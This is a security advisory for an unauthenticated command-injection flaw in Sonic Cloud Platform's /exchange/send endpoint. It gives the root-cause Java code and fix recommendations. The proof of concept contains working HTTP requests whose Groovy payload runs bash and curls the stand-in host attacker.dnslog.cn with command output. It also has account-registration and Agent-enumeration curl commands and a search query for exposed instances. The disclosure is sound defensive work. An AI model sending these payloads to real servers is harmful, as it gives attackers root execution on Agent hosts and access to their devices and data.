

# V-S001: Sonic Cloud Platform — Unauthenticated `/exchange/send` Allows Arbitrary Agent Command Injection

## Vulnerability Information

| Field | Details |
|-------|---------|
| Product | Sonic Cloud Platform — sonic-server-controller |
| Version | ≤ v2.7.2 (latest) |
| Type | CWE-306: Missing Authentication for Critical Function |
| Severity | **Critical** |
| CVSS v3.1 Score | **9.1** |
| CVSS Vector | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:L` |
| Repository | https://github.com/SonicCloudOrg/sonic-server |
| Affected File | `sonic-server-controller/.../controller/ExchangeController.java` |

## Description

The `POST /exchange/send` endpoint in `sonic-server-controller` is annotated with `@WhiteUrl`, which causes the platform's JWT authentication filter to unconditionally skip authentication for this endpoint. **Any unauthenticated attacker can POST arbitrary JSON payloads to this endpoint**, which are forwarded verbatim into the internal Transport WebSocket channel shared between the server and all connected Agents.

This allows an attacker to inject any internal protocol message — including `runStep` (triggering test execution), `stopStep`, or device control commands — without possessing any credentials.

When chained with [V-S002](../V-S002_SonicCloudPlatform_Groovy_Unsandboxed_RCE/) (Groovy unsandboxed execution), this vulnerability enables **zero-authentication remote code execution** on every Agent host managed by the Sonic Server.

## Root Cause

**File:** `sonic-server-controller/src/main/java/org/cloud/sonic/controller/controller/ExchangeController.java`

```java
@WhiteUrl                              // ← Adds endpoint to JWT bypass whitelist
@PostMapping("/exchange/send")
public RespModel<String> send(
        @RequestParam int id,          // Agent ID — enumerable starting from 1
        @RequestBody JSONObject jsonObject) {

    Session agentSession = BytesTool.agentSessionMap.get(id);
    if (agentSession != null) {
        BytesTool.sendText(agentSession, jsonObject.toJSONString());
        // ↑ Attacker-controlled JSON forwarded directly to Agent Transport WS
    }
    return new RespModel<>(RespEnum.SEND_OK);
}
```

**JWT Filter whitelist logic:**
```java
// Any method annotated @WhiteUrl bypasses authentication entirely
if (method.isAnnotationPresent(WhiteUrl.class)) {
    chain.doFilter(request, response);   // No token check
    return;
}
```

## Proof of Concept

### Step 1 — Confirm unauthenticated access (no token header)

```http
POST /server/api/controller/exchange/send?id=1 HTTP/1.1
Host: <target>:3000
Content-Type: application/json

{"msg":"ping","data":"hello"}
```

**Response (HTTP 200, no credentials provided):**
```json
{"code":2000,"message":"Send OK!","data":null}
```

### Step 2 — Inject `runStep` with embedded Groovy payload

```http
POST /server/api/controller/exchange/send?id=1 HTTP/1.1
Host: <target>:3000
Content-Type: application/json

{
  "msg": "runStep",
  "pf": 1,
  "udId": "<device_udId>",
  "sessionId": "AndroidWSServer-<device_udId>",
  "cid": 0,
  "pwd": "",
  "gp": {},
  "steps": [{
    "step": {
      "stepType": "runScript",
      "text": "Groovy",
      "content": "['bash','-c','curl http://attacker.dnslog.cn/`id`'].execute()",
      "conditionType": 0,
      "disabled": 0,
      "elements": [],
      "parentId": 0,
      "sort": 1,
      "error": 1
    }
  }]
}
```

**Response:**
```json
{"code":2000,"message":"Send OK!","data":null}
```

The Groovy code executes on the Agent host as root. See V-S002 for the execution layer detail.

### Obtaining the Agent ID

Agent IDs are sequential integers starting from 1. The Agent list endpoint is accessible to any registered user (registration is open by default):

```bash
# Register a free account
curl -s -X POST http://<target>:3000/server/api/controller/users/register \
  -H 'Content-Type: application/json' \
  -d '{"userName":"attacker","password":"123456"}'

# Login
TOKEN=$(curl -s -X POST http://<target>:3000/server/api/controller/users/login \
  -H 'Content-Type: application/json' \
  -d '{"userName":"attacker","password":"123456"}' \
  | python3 -c "import sys,json; print(json.load(sys.stdin)['data'])")

# List all agents (reveals IDs 1..N)
curl -H "SonicToken: $TOKEN" http://<target>:3000/server/api/controller/agents/list
```

## Real-World Impact

FOFA query `"SonicCloudOrg"` returns hundreds of publicly exposed Sonic instances, all running v2.7.2. The screenshot below shows a representative target with **20+ Agents** and attached physical Android devices:



The vulnerability grants attackers the ability to:
- Execute arbitrary OS commands on every Agent host (root, via V-S002)
- Enumerate and control all connected Android devices
- Exfiltrate test credentials, APKs, and recordings stored on the Agents
- Pivot to internal networks reachable from Agent hosts

## Fix Recommendation

1. **Remove `@WhiteUrl` from `ExchangeController.send()`** — restore JWT enforcement.
2. **Add role-based authorization** — restrict to `ADMIN` role only.
3. **Validate the `msg` field** against an allowlist of permitted message types.
4. **Rate-limit and log** all calls to `/exchange/send`.
